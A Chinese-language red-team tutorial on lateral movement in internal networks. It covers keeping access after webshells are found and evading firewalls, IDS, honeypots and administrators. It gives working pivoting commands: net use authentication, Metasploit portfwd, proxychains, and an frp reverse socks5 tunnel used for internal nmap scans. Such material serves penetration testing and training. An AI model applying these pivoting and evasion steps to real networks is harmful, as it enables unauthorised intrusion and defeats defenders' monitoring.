 横向移动
================================

什么是内网横向攻击
--------------------------------
当通过外部打点进入到目标内网时，需要利用现有的资源尝试获取更多的凭证与权限，进而达到控制整个内网、拥有最高权限、发动 APT （高级持续性威胁攻击）等目地。
在攻防演练中，攻击方需要在有限的时间内近可能的获取更多的权限，因此必须具备高效的横向攻击思路。本次对内网横向攻击的技巧和方法进行总结。

注意事项
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 权限丢失
	webshell被发现，网站关站，木马后门被发现，主机改为不出网环境等。当遇到这些问题，需要做好应对措施，多方位的做好权限维持。
- 内网防火墙与杀毒软件
	内网防火墙，内网态势感知，内网流量监控，ids，ips等安全设备都会给横向攻击的开展造成很大的麻烦，应对措施有，对传输流量进行加密，修改cs流量特征，禁止大规模内网探测扫描等等。
- 内网蜜罐主机，蜜罐系统
	近年来攻防演练越来越多的防守方启用蜜罐主机，蜜罐系统，一旦蜜罐捕捉到攻击行为，并及时发现和处置，会导致权限丢失，前功尽弃。
- 运维管理人员
	内网横向攻击尽可能与运维管理人员的工作时间错开，尽量避免长时间登录administrator用户，如激活guest用户登录。降低被发现的几率。


windwos内网横穿
--------------------------------

常见端口
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ 445
	- MS17-010，永恒之蓝
	- 远程本地认证：``net use \\192.168.1.2 /user:a\username password``
	- 其中a为域或工作组下的机器命名
+ 137/138/139
	- NetBios端口，137，138为UDP端口，用于内网传输文件
	- NetBios/SMB服务获取通过139端口
+ 135
	- 使用DCOM和RPC服务，用于WMI管理工具的远程操作
+ 53
	- DNS域传送漏洞
	- DNS协议隐秘传输
+ 389
	- LDAP
+ 88
	- Kerberos服务，监听KDC的票据请求，用户黄金票据和白银票据的伪造
+ 5985
	WinRM服务

端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ portfwd
	- MSF自带工具
	- 将192.168.100.4的8888端口，映射到当前主机的8899端口
	- ``portfwd add -l 8899 -r 192.168.100.4 -p 8888``

代理工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ proxychains
	- 修改配置/etc/proxychains.conf
		::
		
			[ProxyList]
			socks5 172.20.0.59 7222
	- 直接在程序前增加proxychains
	- ``sudo proxychains apt-get update``
	- 注意：socks代理不支持UDP协议，不支持icmp/ping协议，nmap使用受限。

内网穿透
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ frp
	- 官网下载：https://github.com/fatedier/frp/releases
	- 示例
		::
		
			跳板机（假设IP为172.20.0.59/192.168.100.3双网卡）上frps.ini配置：
			[common]
			bind_port = 7111
			
			执行命令：frps.exe -c frps.ini
			
			目标机器（假设IP为192.168.100.4/128.0.0.2双网卡）上frpc.ini配置：
			[common]
			server_addr = 192.168.100.3
			server_port = 7111

			[plugin_1]
			type = tcp
			remote_port = 7222
			plugin = socks5
			
			执行命令：frpc.exe -c frpc.ini
			
			这样再kali里面设置proxychains代理/etc/proxychains.conf：
			[ProxyList]
			socks5 172.20.0.59 7222
			在172.20.0.1/24网段机器使用nmap直接对内网128网段进行扫描：
			proxychains nmap -sT -Pn -p- 128.0.0.1/24